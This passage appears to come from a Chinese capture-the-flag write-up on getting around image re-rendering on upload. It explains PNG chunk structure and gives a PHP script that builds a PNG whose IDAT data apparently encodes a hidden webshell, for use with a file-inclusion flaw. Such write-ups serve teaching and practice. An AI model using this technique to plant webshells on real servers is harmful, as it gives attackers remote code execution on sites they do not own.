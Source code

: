 点开发现有图片包含点

![image-20250317210549703](assets/image-20250317210549703.png)

可以利用二次渲染进行图片包含

**二次渲染漏洞原理**

> 在我们上传文件后，网站会对图片进行二次处理（格式、尺寸要求等），服务器会把里面的内容进行替换更新，处理完成后，根据我们原有的图片生成一个新的图片并放到网站对应的标签进行显示。将一个正常显示的图片，上传到服务器。寻找图片被渲染后与原始图片部分对比仍然相同的数据块部分，将Webshell代码插在该部分，然后上传。

这题要求上传的是png文件，可以了解一下其格式结构：

```
PNG（Portable Network Graphics）是一种无损压缩的图像格式，其文件结构是以块（chunk）为单位来组织的。每个块都有特定的功能，标准的 PNG 文件由以下关键块组成：

IHDR（Image Header）：图像头部块，定义图像的基本属性（如宽度、高度、颜色深度等）。
IDAT（Image Data）：图像数据块，包含实际的图像像素信息。
IEND（Image End）：图像结束块，表示图像文件的结束。
其他可选的块，如 tEXt（用于存储文本注释），pHYs（存储图像物理维度），以及 PLTE（调色板）等。
在正常情况下，PNG 文件必须符合一定的标准和格式要求，否则大多数 PNG 解析器会拒绝加载或渲染该文件。也就是说，我们想要手工插入恶意代码且不损坏图像文件，几乎不可能
```

这里操纵的是IDAT块

利用脚本可以生成一张符合需求的png图片：

```
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);



$img = imagecreatetruecolor(32, 32);

for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}

imagepng($img,'2.png');
?>
```
